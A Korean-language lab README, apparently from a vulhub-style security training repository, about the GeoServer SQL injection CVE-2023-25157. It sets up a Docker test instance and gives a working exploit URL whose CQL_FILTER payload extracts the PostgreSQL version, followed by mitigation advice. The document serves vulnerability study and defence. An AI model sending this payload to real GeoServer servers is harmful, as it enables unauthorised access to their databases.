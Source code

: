 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
> </br>
> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
</br>
>
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.
- SQL Injection 취약점이 발생하는 경우는 구체적으로 `PropertyIsLike` 필터를 문자열 필드가 있는 모든 JDBCDataStore와 함께 사용하는 경우, `strEndsWith` 함수를  "encode functions"이 활성화 된 PostGIS DataStore와 함께 사용하는 경우 등이 있습니다.
- 이번 테스트에서는 `strStartsWith` 함수를 "encode functions"이 활성화된 PostGIS DataStore와 함께 사용할 경우를 테스트 합니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS DataStore가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS DataStore가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

이를 이용한 아래 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다. 
이러한 취약점을 막기 위해 GeoSever의 버전을 업그레이드하는 것이 권장되며, PostGIS DataStore에서 "encode functions"을 비활성화하여 일시적으로 완화할 수 있습니다.
